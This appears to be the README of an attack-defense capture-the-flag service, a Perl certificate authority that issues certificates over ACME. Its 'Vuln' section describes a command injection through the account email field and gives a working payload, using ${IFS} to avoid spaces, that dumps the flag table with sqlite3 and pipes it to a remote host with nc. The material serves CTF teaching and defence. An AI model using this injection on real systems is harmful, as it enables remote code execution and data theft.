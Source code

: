 # CA certificate authority

## Description

CA service is a software infrastructure which allows clients to issue TLS certificates via ACME protocol and store private data after successfully passing the authentication using the private key and certificate issued by CA server.

## Features

1. Certificate issue via ACME protocol
2. Web service login with certificate and storing of private data

## Flags

Flags are private messages in sqlite database in table `data`.

## Vuln

In `newAccount` ACME method client sends account email matching `/^\w+\@\S+(.\S+){1,3}$/` regular expression.

CA signs CSR using `openssl` command like:

`openssl ca -config ca.conf -batch -create_serial -rand_serial -cert ssl/cert.pem -keyfile ssl/key.pem -subj /emailAddress=B4IxhkAgJ7eO@example.com/countryName=AE/commonName=B4IxhkAgJ7eO.com -in /tmp/OuIngdkten`

So, attacker can inject arbitrary command (matching the regexp) and execute arbitrary code. For example, account email can be:

`hack@ctf|sqlite3 data/ca.db "select data from data" | nc ip port;`, but space character are prohibited, so we can replace it with `${IFS}` and final exploit looks like:

`hack@ctf|sqlite3${IFS}data/ca.db${IFS}"select${IFS}data${IFS}from${IFS}data"${IFS}|${IFS}nc${IFS}ip${IFS}port;`

## Soft

1. sqlite3
2. Perl + Mojolicious web framework

## Deploy

```bash
$ docker-compose build --pull
$ ./init.sh
$ docker-compose up -d
```
